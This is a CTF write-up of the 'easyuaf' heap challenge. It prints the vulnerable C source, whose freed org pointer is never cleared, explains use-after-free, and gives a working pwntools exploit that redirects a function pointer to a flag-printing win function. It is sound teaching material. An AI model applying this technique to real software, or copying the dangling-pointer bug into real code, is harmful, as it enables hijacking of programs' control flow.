



# easyuaf

> Other than OOB access, use-after-free is another very nice bug to exploit. Usually UAF can be used to do OOB access too.
> 
> MD5 (easyuaf.zip) = 95a6dc83bec963416d01f2cf34eeb30a
> 
> - daniellimws

This binary is about a "namecard printing service" which allows the user to enter information about people or organisations and print them out. Suspiciously it allows the user to delete the organisation and not the person. Hmmm.

Anyways let us analyse the code provided, bit by bit:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define BANNER "NameCard Printing Service v0.1"
#define CAPACITY 128

void ezflag()
{
    system("cat ./flag.txt");
}
```

Immediately we see our end goal. Challenges with win functions provided are much simpler as we do not have to care about all the libc-related stuff.

```c
typedef struct person
{
    char name[24];
    int id;
    int age;
    int personal_num;
    int business_num;
} person;

typedef struct org
{
    char name[24];
    int id;
    void (*display)(struct org*, struct person*);
} org;
```

Here we have 2 `struct`s, `person` and `org`. Immediately the function stored in the `struct` seems sus: There is a very high chance that we will later get to overwrite the stored function of some `org` for us to jump to `ezflag`. More on that later.

```c
person* persons[CAPACITY];
org* orgs[CAPACITY];

void display1(org* org, person *person)
{
    puts("-------------------------------------");
    printf("*** Org:  %-8s  %d ***\n", org->name, org->id);
    printf("--- Name: %s\n", person->name);
    printf("--- ID:   %d\n", person->id);
    printf("--- Age:  %d\n", person->age);
    printf("--- Personal Contact:  %d\n", person->personal_num);
    printf("--- Business Contact:  %d\n", person->business_num);
    puts("-------------------------------------");
}

void display2(org* org, person *person)
{
    puts("-------------------------------------");
    printf("=== Org:  %-8s  %d ===\n", org->name, org->id);
    printf("+++ Name: %s\n", person->name);
    printf("+++ ID:   %d\n", person->id);
    printf("+++ Age:  %d\n", person->age);
    printf("+++ Personal Contact:  %d\n", person->personal_num);
    printf("+++ Business Contact:  %d\n", person->business_num);
    puts("-------------------------------------");
}

void display3(org* org, person *person)
{
    puts("-------------------------------------");
    printf("### Org:  %-8s  %d ###\n", org->name, org->id);
    printf(">>> Name: %s\n", person->name);
    printf(">>> ID:   %d\n", person->id);
    printf(">>> Age:  %d\n", person->age);
    printf(">>> Personal Contact:  %d\n", person->personal_num);
    printf(">>> Business Contact:  %d\n", person->business_num);
    puts("-------------------------------------");
}

void usage()
{
    puts("---------------------");
    puts("1. New person");
    puts("2. New org");
    puts("3. Delete org");
    puts("4. Print name card");
    puts("5. Exit");
    puts("---------------------");
}

void prompt()
{
    printf("> ");
}

void readstr(char* dest, int len)
{
    fgets(dest, len, stdin);
    if (dest[strlen(dest)-1] == '\n') dest[strlen(dest)-1] = 0;
}

int readint()
{
    char input[256]; fgets(input, 256, stdin);
    if (input[0] == '\n') input[0] = ' ';
    return strtol(input, 0, 10);
}
```

Some boring code. The `readstr` and `readint` functions do not look too exploitable. Note that we see that the `person` and `org` arrays are stored globally and not on the stack in the `main` function.

```c
void new_person()
{
    person *res = (person*) malloc(sizeof(person));
    // printf("res: %p\n", res);

    while (1)
    {
        printf("ID (0-%d): ", CAPACITY-1);
        res->id = readint();
        if (res->id < 0 || res->id >= CAPACITY) puts("Invalid ID");
        else if (persons[res->id] != 0)
            printf("ID %d is already used by another person. Choose a different ID.\n", res->id);
        else break;
    }

    printf("Name (max 23 chars): ");
    readstr(res->name, 24);

    printf("Age: ");
    res->age = readint();

    printf("Personal Contact Number: ");
    res->personal_num = readint();

    printf("Business Contact Number: ");
    res->business_num = readint();

    persons[res->id] = res;
}

void new_org()
{
    org *res = (org*) malloc(sizeof(org));
    // printf("res: %p\n", res);

    while (1)
    {
        printf("ID (0-%d): ", CAPACITY-1);
        res->id = readint();
        if (res->id < 0 || res->id >= CAPACITY) puts("Invalid ID");
        else if (orgs[res->id] != 0)
            printf("ID %d is already used by another org. Choose a different ID.\n", res->id);
        else break;
    }

    printf("Name (max 23 chars): ");
    readstr(res->name, 24);

    int style;
    while (1)
    {
        printf("Style (1-3): ");
        style = readint();
        if (style >= 1 && style <= 3) break;
        puts("Invalid style.");
    }

    if (style == 1) res->display = display1;
    if (style == 2) res->display = display2;
    if (style == 3) res->display = display3;

    orgs[res->id] = res;
}
```

These 2 functions are where we create data. As we can tell from the `malloc` calls, the `person`s and `org`s created go onto the heap. If not already obvious from the challenge title, this should be about heap exploitation. But otherwise, this part also does not seem too vulnerable.

```c
void delete_org()
{
    printf("ID (0-%d): ", CAPACITY-1);
    int id = readint();
    if (id < 0 || id >= CAPACITY) puts("Invalid ID");
    else if (orgs[id] == 0)
        printf("No org created with ID %d.\n", id);
    else
    {
        free(orgs[id]);
        printf("Deleted org %d.\n", id);
    }
}
```

Now here is where the juicy part comes. The program gave us the functionality to delete an organisation (through `free`). We will see how this is crucial to our exploit later.

```c
void print_card()
{
    int org_id;
    while (1)
    {
        printf("Org ID (0-%d): ", CAPACITY-1);
        org_id = readint();
        if (org_id < 0 || org_id >= CAPACITY) puts("Invalid org ID");
        else if (orgs[org_id] == 0)
            printf("No org created with ID %d. Choose a different ID.\n", org_id);
        else break;
    }

    int person_id;
    while (1)
    {
        printf("Person ID (0-%d): ", CAPACITY-1);
        person_id = readint();
        if (person_id < 0 || person_id >= CAPACITY) puts("Invalid person ID");
        else if (persons[person_id] == 0)
            printf("No person created with ID %d. Choose a different ID.\n", org_id);
        else break;
    }

    org *o = orgs[org_id];
    person *p = persons[person_id];

    // printf("display func @ %p\n", o->display);
    o->display(o, p);
}
```

The function for us to print details. The important part in this function is at the end, where the `display` function of a chosen `org` is called.

By this point there have been so many red flags. We can see that the program clearly does not check if the organisation called upon has been deleted, which means that the function in the `org` is simply floating around waiting to be exploited by us.

```c
void reset()
{
    memset(persons, 0, sizeof(persons));
    memset(orgs, 0, sizeof(orgs));
}

void setup_io()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

int main()
{
    // org* o1 = (org*)malloc(sizeof(org));
    // person* p1 = (person*)malloc(sizeof(person));
    // printf("o1: %p\n", o1);
    // printf("p1: %p\n", p1);
    // free(o1);
    // person* p2 = (person*)malloc(sizeof(person));
    // printf("p2: %p\n", p2);

    reset();

    setup_io();
    puts(BANNER);
    usage();

    // printf("%d %d\n", sizeof(org), sizeof(person));

    int opt;
    do {
        prompt();
        opt = readint();

        switch (opt)
        {
        case 1:
            new_person();
            break;
        case 2:
            new_org();
            break;
        case 3:
            delete_org();
            break;
        case 4:
            print_card();
            break;
        default:
            break;
        }
    } while (opt != 5);

    puts("Thanks for using this service. Please come again next time.");

    return 0;
}
```

And the rest of the code.

---

### exploit

I wanted to elaborate upon the red flags right after each problematic snippet, but I restrained myself to keep things nice and tidy. So let us summarise what we have found so far:

* We have a win function, `ezflag`

* We conveniently have a function stored in a data structure (We cannot really do much to it by itself however)

* We get to `free` the problematic `org`, allowing us to use the previously occupied area and manipulate to our liking

* `print_card` does not check whether the `org` has been freed or not, meaning that it will simply use _whatever_ is stored there and pretend it is a legitimate function

Let us go through the steps in more detail:

---

If you do not know how heaps / `free` work in general, the best analogy I have heard of is a large plot of land.

Initially, the land is (almost) empty. When we want to use the land to construct buildings, we start at the top and demarcate the required chunk of land row by row in an organised manner.

Similarly, when we require more memory (like to store a `person` or an `org`), we ask the memory allocator to mark off a chunk of memory for use.

When we do not need a chunk of land anymore, we remove the markings / barriers around the land, so that the next person can use the land for their own projects. However, (most of) the buildings themselves are **not** demolished.

Similarly, when we do not need a chunk of memory anymore, we usually `free` it -- that is, the memory allocator marks that chunk of memory as no longer in use, and available for subsequent allocations. However, **most of the data inside is not cleaned automatically -- including, for this challenge, the function pointer in `org`.**

---

Let us look at a concrete example. We first create an `org`, populating it with the required data:



Notice the "gap" between `age` and `display` (the function pointer); I believe this is most likely because addresses are 8-byte aligned.

Let's see what happens when we free the function:



Notice:

* Aside from the first 16 bytes used by the memory allocator, **most of the data still remain on the heap!**

* The address of the `org` is still stored in the global array, which means that this still functions as an `org` object equally well. For example, there is absolutely no problem if you use this `org` to call `display`.

* However, this space is now treated by the memory allocator as empty space ready for memory to be allocated to.

This is exactly what happens when we now create a new `person`: (Note that sometimes it is important for the `structs` to have the same size; in this case they do so there is no problem)



We can see that the `personal_num` and `business_num` overwrote the initial function pointer, even though the `org` stored within the global array still thinks that it is a legitimate address!

Now imagine if the `buniess_num` and `personal_num` together make up the address of `ezflag`. When `print_card` attempts to call the function stored there, it jumps to `ezflag` instead!

---

Thus we already have our working exploit:

```python
from pwn import *

e = context.binary = ELF('./easyuaf')
p = e.process()
# p = remote('xxx.yyy.zzz', 123)

p.sendline(b'2')
p.sendline(b'0')
p.sendline(b'a')
p.sendline(b'1')

p.sendline(b'3')
p.sendline(b'0')

p.sendline(b'1')
p.sendline(b'0')
p.sendline(b'a')
p.sendline(b'0')
p.sendline(str(u32(p64(e.sym.ezflag)[:4])).encode())
p.sendline(str(u32(p64(e.sym.ezflag)[4:])).encode())

p.sendline(b'4')
p.sendline(b'0')
p.sendline(b'0')

p.interactive()
```

* The first chunk of `sendline`s creates an `org`

* The next 2 lines delete the created `org`

* The next chunk attempts to create a `person` in the freed `org`'s place such that the address of `ezflag` lines up with the initial `display`

* The next 3 lines call `print_card`, with the `org` being the one with the manipulated "`display`" address

And we are done!

`grey{u_are_feeling_good?}`
